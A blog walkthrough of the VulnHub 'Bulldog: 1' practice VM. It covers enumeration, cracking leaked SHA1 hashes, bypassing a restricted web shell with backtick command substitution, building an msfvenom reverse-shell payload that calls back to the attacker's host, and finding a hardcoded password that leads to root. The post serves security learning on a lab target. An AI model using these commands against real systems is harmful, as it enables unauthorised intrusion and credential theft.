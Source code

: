 ```yaml
---
layout: post
last_modified_at: 2018-08-03 17:47:13 +0000
title: "Bulldog: 1 Walkthrough"
subtitle: "Who Let the Dogs Out?"
category: Walkthrough
tags: [VulnHub, Bulldog]
comments: true
image:
  feature: bulldog-1-walkthrough.jpg
  credit: 984943 / Pixabay
  creditlink: https://pixabay.com/en/beach-playing-bulldogs-1749854/
---
```


This post documents the complete walkthrough of Bulldog: 1, a boot2root [VM][1] created by [Nick Frichette][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background
Bulldog Industries has its website defaced and gets owned by the malicious German Shepherd Hack Team. Could this mean there are more vulnerabilities to exploit? Why don't you find out? :smile:

### Information Gathering

Let's kick this off with a `nmap` scan to establish the services available in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.36.3
...
PORT     STATE SERVICE REASON         VERSION
23/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 20:8b:fc:9e:d9:2e:28:22:6b:2e:0e:e3:72:c5:bb:52 (RSA)
|_  256 cd:bd:45:d8:5c:e4:8c:b6:91:e5:39:a9:66:cb:d7:98 (ECDSA)
80/tcp   open  http    syn-ack ttl 64 WSGIServer 0.1 (Python 2.7.12)
| http-methods:
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: WSGIServer/0.1 Python/2.7.12
|_http-title: Bulldog Industries
8080/tcp open  http    syn-ack ttl 64 WSGIServer 0.1 (Python 2.7.12)
| http-methods:
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: WSGIServer/0.1 Python/2.7.12
|_http-title: Bulldog Industries
```

Let's explore the web service first. This is how the site looks like in my browser.

![screenshot-1](/assets/images/posts/bulldog-1-walkthrough/screenshot-1.png)

There's no clue in the HTML source of the landing page as well as its internal link, on how to proceed.

### Directory/File Enumeration

Let's use `gobuster` with `common.txt` from [SecLists][4] to look for directories and/or files.

```
# gobuster -w /usr/share/seclists/Discovery/Web_Content/common.txt -e -u http://192.168.36.3

Gobuster v1.1                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://192.168.36.3/
[+] Threads      : 10
[+] Wordlist     : /usr/share/seclists/Discovery/Web_Content/common.txt
[+] Status codes : 204,301,302,307,200
[+] Expanded     : true
=====================================================
http://192.168.36.3/admin (Status: 301)
http://192.168.36.3/dev (Status: 301)
http://192.168.36.3/robots.txt (Status: 200)
=====================================================
```

The `robots.txt` probably doesn't conform to specifications or it'll appear in the `nmap` scan. Now, I've two more directories—`admin` and `dev` to explore.

### Under Development

This page `/dev` contains interesting information. There's a link to `/dev/shell`, I suppose, a web shell. Under the hood of the HTML source, there are SHA1 password-hashes of members from the development team.

![screenshot-2](/assets/images/posts/bulldog-1-walkthrough/screenshot-2.png)

Let's clean up the hashes and send them to John the Ripper for offline cracking.

```
# curl -s 192.168.36.3/dev/ | sed '49,55!d' | awk -F': ' '{ print $2 }' | sed -r -e 's/(<br>)+<!--/:/' -e 's/-->/:::::/' > hashes.txt && john --format=raw-sha1 --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
...
nick@bulldogindustries.com:bulldog:::::
sarah@bulldogindustries.com:bulldoglover:::::
```

Thank goodness authentication is a must, to use the web shell.

![screenshot-3](/assets/images/posts/bulldog-1-walkthrough/screenshot-3.png)

### Django Site Administration

Let's use one of the credentials (`nick:bulldog`) and see if we can authenticate with the server to use the web shell.

![screenshot-4](/assets/images/posts/bulldog-1-walkthrough/screenshot-4.png)

![screenshot-5](/assets/images/posts/bulldog-1-walkthrough/screenshot-5.png)

I have a session with the site. Now, are we able to use the web shell by going to `/dev/shell`?

![screenshot-6](/assets/images/posts/bulldog-1-walkthrough/screenshot-6.png)

Sweet. The web shell appears to restrict itself to certain commands.

### Command Substitution

One of my favorite features in `bash` is [command substitution][5] using backtick (`).

> "Bash performs the expansion by executing command in a subshell environment and replacing the command substitution with the standard output of the command, with any trailing newlines deleted."

![screenshot-7](/assets/images/posts/bulldog-1-walkthrough/screenshot-7.png)

### Low Privilege Shell

Let's transfer (using `wget`) a single-stage reverse shell payload and then run a reverse shell back. I can do that with `msfvenom` and Metasploit multi-handler.

```
# msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.36.4 LPORT=443 -f elf -o bulldog
```

![screenshot-8](/assets/images/posts/bulldog-1-walkthrough/screenshot-8.png)

![screenshot-9](/assets/images/posts/bulldog-1-walkthrough/screenshot-9.png)

![screenshot-10](/assets/images/posts/bulldog-1-walkthrough/screenshot-10.png)

Although a low-privilege shell appears, let's spawn a pseudo-TTY for better output control.

![screenshot-11](/assets/images/posts/bulldog-1-walkthrough/screenshot-11.png)

### Privilege Escalation

I find two users—`django` and `bulldogadmin`, during enumeration. They can `sudo` as `root`. It's a pity I don't have their passwords.

![screenshot-12](/assets/images/posts/bulldog-1-walkthrough/screenshot-12.png)

![screenshot-13](/assets/images/posts/bulldog-1-walkthrough/screenshot-13.png)

![screenshot-14](/assets/images/posts/bulldog-1-walkthrough/screenshot-14.png)

Notice `.hiddenadmindirectory` in the home directory of `bulldogadmin`?

![screenshot-15](/assets/images/posts/bulldog-1-walkthrough/screenshot-15.png)

![screenshot-16](/assets/images/posts/bulldog-1-walkthrough/screenshot-16.png)

![screenshot-17](/assets/images/posts/bulldog-1-walkthrough/screenshot-17.png)

Seems like reverse engineering the ELF binary is my ticket to `root`.

### What the ELF?

The first thing to do in reverse engineering is to look for interesting strings and that's what I did.

![screenshot-18](/assets/images/posts/bulldog-1-walkthrough/screenshot-18.png)

If you look past the "`H`", you see "`SUPERultimatePASSWORDyouCANTget`". I'll have my work cut short if this is the password belonging to any of the users, since they can `sudo` to `root`. Let's find out with `hydra`.

```
# cat users.txt
bulldogadmin
django
root

# hydra -L users.txt -p SUPERultimatePASSWORDyouCANTget -s 23 ssh://192.168.36.3
[23][ssh] host: 192.168.36.3   login: django   password: SUPERultimatePASSWORDyouCANTget
1 of 1 target successfully completed, 1 valid password found
```

![screenshot-19](/assets/images/posts/bulldog-1-walkthrough/screenshot-19.png)

It's done.

![screenshot-20](/assets/images/posts/bulldog-1-walkthrough/screenshot-20.png)

:dancer:

### Afterthought

If I had to guess, I'd say the other way to get root is perhaps through the Dirty CoW exploit as hinted in the notice page.

![screenshot-21](/assets/images/posts/bulldog-1-walkthrough/screenshot-21.png)

To an attacker, a shell is a shell is a shell. :imp:

[1]: https://www.vulnhub.com/entry/bulldog-1,211/
[2]: https://twitter.com/@frichette_n
[3]: https://www.vulnhub.com
[4]: https://github.com/danielmiessler/SecLists
[5]: https://www.gnu.org/s/bash/manual/html_node/Command-Substitution.html
